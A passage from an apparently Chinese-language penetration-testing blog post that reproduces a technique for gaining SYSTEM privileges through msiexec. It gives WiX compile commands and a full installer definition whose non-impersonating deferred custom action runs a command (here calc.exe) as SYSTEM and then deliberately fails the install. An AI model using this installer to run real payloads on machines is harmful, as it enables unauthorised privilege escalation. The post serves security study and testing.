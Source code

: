 
## 0x03 利用MSIExec获得System权限
---

我曾在之前的文章[《渗透测试中的msiexec》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)介绍过利用Advanced Installer制作msi文件的方法，这里不再赘述

本节对XPN提到的方法做复现，使用wix3制作msi文件

wix3下载地址：

https://github.com/wixtoolset/wix3

msigen.wix的代码可参考如下地址：

https://gist.github.com/xpn/d1ef20dfd266053227d3e992ae84c64e

编译命令如下：

```
candle.exe msigen.wix
torch.exe msigen.wixobj
```

我对XPN的代码做了修改，将payload替换为执行calc.exe，细节上做了部分修改，代码如下：

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
          </Component>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
      <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">calc.exe
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
      invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

  </Product>
</Wix>

```

